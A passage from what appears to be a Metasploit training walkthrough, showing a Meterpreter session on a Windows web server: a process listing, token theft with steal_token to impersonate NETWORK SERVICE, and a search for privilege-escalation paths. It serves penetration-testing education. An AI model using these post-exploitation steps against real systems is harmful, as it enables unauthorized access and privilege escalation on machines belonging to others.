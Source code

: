 Meterpreter

```shell-session
meterpreter > getuid

[-] 1055: Operation failed: Access is denied.


meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]                                                
 4     0     System                                                          
 216   1080  cidaemon.exe                                                    
 272   4     smss.exe                                                        
 292   1080  cidaemon.exe                                                    
<...SNIP...>

 1712  396   alg.exe                                                         
 1836  592   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 1920  396   dllhost.exe                                                     
 2232  3552  svchost.exe        x86   0                                      C:\WINDOWS\Temp\rad9E519.tmp\svchost.exe
 2312  592   wmiprvse.exe                                                    
 3552  1460  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 3624  592   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 4076  1080  cidaemon.exe                                                    


meterpreter > steal_token 1836

Stolen token with username: NT AUTHORITY\NETWORK SERVICE


meterpreter > getuid

Server username: NT AUTHORITY\NETWORK SERVICE
```

Now that we have established at least some privilege level in the system, it is time to escalate that privilege. So, we look around for anything interesting, and in the `C:\Inetpub\` location, we find an interesting folder named `AdminScripts`. However, unfortunately, we do not have permission to read what is inside it.

**MSF - Interacting with the Target**
